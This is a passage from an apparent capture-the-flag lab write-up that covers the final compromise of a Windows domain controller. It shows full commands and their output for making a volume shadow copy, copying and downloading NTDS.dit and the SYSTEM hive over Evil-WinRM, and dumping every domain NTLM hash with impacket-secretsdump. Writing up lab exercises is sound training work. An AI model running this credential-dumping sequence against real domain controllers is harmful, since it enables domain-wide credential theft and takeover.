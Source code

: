 ```
*Evil-WinRM* PS C:\Users\stom\Documents> vssadmin CREATE SHADOW /for=C: 
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool                           
(C) Copyright 2001-2013 Microsoft Corp.                                
Successfully created shadow copy for 'C:\'                                                               
    Shadow Copy ID: {1a19cedf-7113-402f-a03a-cfc2bf69bb9c}                                Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1 

*Evil-WinRM* PS C:\Users\stom\Documents> cmd.exe /C copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\NTDS.dit

*Evil-WinRM* PS C:\Users\stom\Documents> cmd.exe /C copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\SYSTEM C:\SYSTEM
# THIS TAKES A WHILE
*Evil-WinRM* PS C:\Users\stom\Documents> download C:\ntds.dit
*Evil-WinRM* PS C:\Users\stom\Documents> download C:\SYSTEM
```
## 09. Cracking the creds
Finally we can use secretsdump to grab the hash we need for this challenge
```
th@ddeu$ impacket-secretsdump -ntds ./NTDS.dit -system ./SYSTEM LOCAL                                                                                                                
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x76b4393403c75a0cb93633c17abf2778                                        [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9bf8b490fffee672ecfe3bc67e0daf69
[*] Reading and decrypting hashes from ./NTDS.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:9d80cee28b2e985285a43a7c4eb3122c:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:11dee8f685882eb4f78a450291569bd0:::
nexura.htb\bdavid:1105:aad3b435b51404eeaad3b435b51404ee:82c5ef7f2612567964070d04fe46a5d0:::
nexura.htb\stom:1106:aad3b435b51404eeaad3b435b51404ee:21ea958524cfd9a7791737f8d2f764fa::: 
nexura.htb\hwilliam:1107:aad3b435b51404eeaad3b435b51404ee:f3ac86b290a51fb59a1a66f50b658e1f:::
FILE01$:1108:aad3b435b51404eeaad3b435b51404ee:b7374a9de2bf6951a5c66a7675df7f2f:::
JUMP01$:1109:aad3b435b51404eeaad3b435b51404ee:7bef0ee0b472d2c5805921324525f321:::

```
